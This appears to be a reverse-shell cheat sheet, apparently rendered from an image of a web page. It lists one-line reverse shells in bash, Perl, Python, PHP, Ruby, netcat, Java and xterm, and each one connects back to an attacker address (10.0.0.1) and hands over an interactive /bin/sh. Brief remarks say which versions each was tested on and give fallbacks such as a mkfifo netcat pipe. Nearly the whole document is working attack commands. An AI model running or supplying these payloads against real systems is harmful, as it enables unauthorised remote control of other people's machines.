 
## Bash
Some versions of bash can send you a reverse shell (this was tested on Ubuntu 10.10):

```bash -i >& /dev/tcp/10.0.0.1/8080 0>&1```

## PERL
Here’s a shorter, feature-free version of the perl-reverse-shell:

```perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'```
There’s also an alternative PERL revere shell here.

## Python
This was tested under Linux / Python 2.7:

```python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'```

## PHP
This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5, 6…

php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
If you want a .php file to upload, see the more featureful and robust php-reverse-shell.

## Ruby

```ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'```

### Netcat

Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.

```nc -e /bin/sh 10.0.0.1 1234```

If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

## Java

r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
[Untested submission from anonymous reader]

## xterm

One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.

```xterm -display 10.0.0.1:1```

To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):

## Xnest :1

You’ll need to authorise the target to connect to you (command also run on your host):

```xhost +targetip```
